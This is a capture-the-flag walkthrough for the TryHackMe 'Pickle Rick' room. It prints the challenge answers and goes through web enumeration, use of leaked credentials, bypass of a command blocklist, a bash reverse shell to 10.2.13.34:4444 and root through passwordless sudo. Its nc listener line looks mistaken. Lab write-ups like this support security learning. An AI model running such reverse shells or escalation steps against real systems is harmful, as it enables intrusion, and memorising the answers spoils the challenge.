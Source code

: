 # Tryhackme.com Room : Pickle Rick
`https://tryhackme.com/room/picklerick`


# Instance
```
export IP=10.10.233.139
```

# Task 1
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

1. First Ingredient

```
mr. meeseek hair
```

2. Second Ingredient

```
1 jerry tear
```

3. Third Ingredient

```
fleeb juice
```


# Walkthrough
We go to the Webserver server and find a message from rick.

Inspecting the html, we find some comments with :
```
Username : R1ckRul3s
```

Robots.txt contains :
```
Wubbalubbadubdub
```

There is probably some login page somewhere, let's gobuster it `gobuster dir -w /usr/share/dirb/wordlists/big.txt -u http://$IP/`

Didn't find much with gobuster.. waiting for the result of /usr/share/wordlists/big.txt

```

```

The gobuster run with common.txt did find `/assets` folder which index all images.
One is named `portal.png`

I tried /portal & /portal.php

Go redirected to login.php

Tried 
```
Username : R1ckRul3s
password : Wubbalubbadubdub
```

We are logged in but can only access the command page.

We can execute bash commands directly.
Some commands are disallowed tho.

We can see them by `uniq portal.php`. We then need to inspect to see the code since it is interpreted by the browser:
```
cat
head
more
tail
nano
vim
vi
```

We use uniq to print the output `uniq Sup3rS3cretPickl3Ingred.txt`
```
mr. meeseek hair
```

Which is the first ingredient.

Then, the clue.txt file says `Look around the filesystem`.

We find the second ingredient with `uniq "/home/rick/second ingredients"`

```
1 jerry tear
```

We can get a reverse shell with :
`/bin/bash -c 'bash -i >& /dev/tcp/10.2.13.34/4444 0>&1'`
In the web Input

And 
`nc 10.2.13.34 4444 –e /bin/bash`
On my machine

The session is rather bad tho, no autocomplete, etc. There is a way to fix this. didnt bother

Looking at sudoers file, seems like www-data can execute anything with sudo without password
So we just need to
```
sudo su
cd /root
cat 3rd.txt
```

And we get the last ingredient :
```
fleeb juice
```

Done
